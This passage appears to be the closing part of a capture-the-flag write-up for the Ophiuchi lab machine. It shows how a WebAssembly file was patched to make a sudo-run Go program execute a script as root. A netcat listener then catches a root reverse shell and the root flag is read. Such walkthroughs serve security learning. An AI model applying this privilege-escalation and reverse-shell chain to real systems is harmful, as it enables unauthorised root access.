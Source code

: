 - Downloaded the compiled `wabt` version to my working directory and extracted it

```bash
wget https://github.com/WebAssembly/wabt/releases/download/1.0.23/wabt-1.0.23-ubuntu.tar.gz
tar -xzvf wabt-1.0.23-ubuntu.tar.gz
```

- Using the recently downloaded tool, converted the `main.wasm` to `main.wat`, where we got the following content

```bash
$ wabt-1.0.23/bin/wasm2wat main.wasm -o main.wat
$ cat main.wat                                                                                           
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
      i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

- Once we need to return `f == 1`, which is a property of `info`, we needed to change the line `i32.const 0` to `i32.const 1` at line 4.

- After changing it, compiled the file again to `main.wasm` and transferred it to the victim machine as below

```bash
wabt-1.0.23/bin/wat2wasm main.wat -o main.wasm
scp main.wasm admin@10.10.10.227:/dev/shm/zurc
```
  
- In a second attempt, we had success on running the crafted deploy.sh as root :smiley:

```bash
admin@ophiuchi:/dev/shm/zurc$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
uid=0(root) gid=0(root) groups=0(root)
```

- After that, modified the file to the previously shared reverse shell command line, obtained interactive access as root, and was able to get its flag.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.227] 50068
# hostname && id
ophiuchi
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
```

I hope you have enjoyed it!

See you in the next post :smile:
